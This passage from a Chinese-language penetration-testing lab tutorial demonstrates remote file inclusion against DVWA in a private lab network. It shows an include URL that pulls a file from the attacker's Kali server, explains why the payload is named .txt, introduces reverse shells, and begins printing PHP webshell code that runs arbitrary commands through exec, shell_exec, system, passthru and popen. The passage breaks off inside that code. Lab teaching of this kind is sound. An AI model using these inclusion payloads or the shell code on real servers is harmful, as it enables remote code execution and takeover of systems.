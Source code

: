 ![restart-apache](https://doc.shiyanlou.com/document-uid113508labid2426timestamp1482492616139.png/wm)

此时我们再次尝试访问这个 URL，就可以正常访问了：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/phpinfo.txt
```

由此可以看出它能够正常的执行远在我服务器上的 phpinfo.txt 文件，这就是远程文件包含，并且我们可以看到配置，其中 allow_url_include 的设置是 On，说明就是在靶机中执行的，因为默认情况下在 php5 中该配置选项是 Off 的。

此处说明一下为什么取名是 phpinfo.txt 而不是 phpinfo.php，原因是 Kali 的环境支持 php，能够解析并执行 php，所以在 include 的时候，首先判断该文件的后缀是否为 .php，然后看本地能否解析、运行 php，若是这两个条件都符合就会在 Kali 中执行然后把结果返回给 include 它的程序，反之 include 的程序就会将 include 内容读取到本地，然后在本地执行。

也就是说若是取名为 phpinfo.php 的话，就会在 Kali 本地中执行这段小程序，然后将得到的结果返回给 dvwa，给我们呈现出来，这样做是没有意义，从两个角度来讲：

- 从开发的角度来说，include 文件是为了重用代码，不用把已经实现的功能写很多遍，调用其中的函数或者类什么的，但是若是在远程设备上执行了返回结果过来是没有办法调用上面的函数、类等等。
- 从渗透测试的角度来讲，是为了攻击你的服务器，使用该机器上的功能，查看敏感信息，在我自己的服务器上运行，返回我自己服务器上的信息给我干嘛呢？

所以此处我们将文件的后缀名修改成 .txt，这样就不会在本地执行了，而 include 过去之后，解析文本便不是靠后缀名，其中若是没有 `<?php ?>` 的标志认定只不是一个 php 文件，直接将内容打印在页面上，若是有 `<?php ?>` 的标志位便解析，然后运行。

## 7. 远程文件包含进阶

若还是只能这样查看信息的话，就不能说他的危害很大了。

上述的实验我们只是在上面简单的执行了一个小程序而已，我们若是放一个反弹 shell 呢？挂个木马？嘿嘿，就和我们正常的 ssh 登陆上去差不多了。

所谓的反弹 shell 就是 reverse shell，在机器上开启某个端口，用该端口向我们的设备发起请求，只要我们监听了该端口，并且该端口没有被防火墙所阻挡我们就可以连接上发起请求的设备，就像使用 ssh 登陆 shell 一样目标机器。

通过我们在 Kali 设备的 Apache 根目录下使用 `vim test.txt` 创建并编辑文件，该文件中有输入这样的一些内容：

```
<?php 

function which($pr) { 
$path = execute("which $pr"); 
return ($path ? $path : $pr); 
} 
function execute($cfe) { 
$res = ''; 
if ($cfe) { 
if(function_exists('exec')) { 
@exec($cfe,$res); 
$res = join("\n",$res); 
} elseif(function_exists('shell_exec')) { 
$res = @shell_exec($cfe); 
} elseif(function_exists('system')) { 
@ob_start(); 
@system($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(function_exists('passthru')) { 
@ob_start(); 
@passthru($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(@is_resource($f = @popen($cfe,"r"))) { 
$res = ''; 
while(!@feof($f)) { 
$res .= @fread($f,1024); 
} 
@pclose($f); 
} 
} 
return $res; 
```